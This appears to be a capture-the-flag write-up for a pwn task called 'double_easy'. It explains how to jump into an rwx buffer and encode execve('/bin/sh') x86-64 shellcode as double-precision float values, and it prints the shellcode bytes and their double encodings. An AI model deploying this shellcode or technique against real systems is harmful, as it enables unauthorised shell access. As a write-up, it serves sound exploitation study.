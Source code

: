 # double_easy
This is simple but yet in my opinion fun enough task.
At the begging called nmap. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 
![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp into rax .

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

0:  48 2d 00 08 00 00       sub    rax,0x800
6:  ff e0                               jmp    rax

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.
![](/images/random_tasks/double_easy/04.png)

I used following shellcode:
![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280
00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42
BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195
FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186
5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284

![](/images/random_tasks/double_easy/06.png)